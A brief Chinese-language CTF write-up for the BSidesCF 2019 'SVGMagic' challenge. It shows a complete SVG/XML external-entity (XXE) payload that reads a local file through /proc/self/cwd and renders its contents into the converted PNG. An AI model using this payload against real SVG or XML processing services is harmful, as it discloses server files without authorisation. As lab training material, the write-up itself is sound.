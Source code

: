 # [BSidesCF 2019]SVGMagic

## 知识点

`svg渲染xxe`

## 解题

![](./img/[BSidesCF2019]SVGMagic-1.png)

说是`svg`转为`png`，`svg`的格式是`xml`，那么我们尝试`xxe`将最终的结果以`png`的形式输出即可

长度或者宽度不够可能导致`flag`,动态调整即可，上传`1.xml`内容为

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE note [
<!ENTITY xxe SYSTEM "file:///proc/self/cwd/flag.txt" >
]>
<svg height="100" width="1000">
          <text x="10" y="100">&xxe;</text>
</svg>
```

因为`/flag`没找到`flag`，看别人`wp`发现实在当前目录，`/proc/self/cwd/`访问的是当前目录,上传后即可获取`flag`

![](./img/[BSidesCF2019]SVGMagic-2.png)

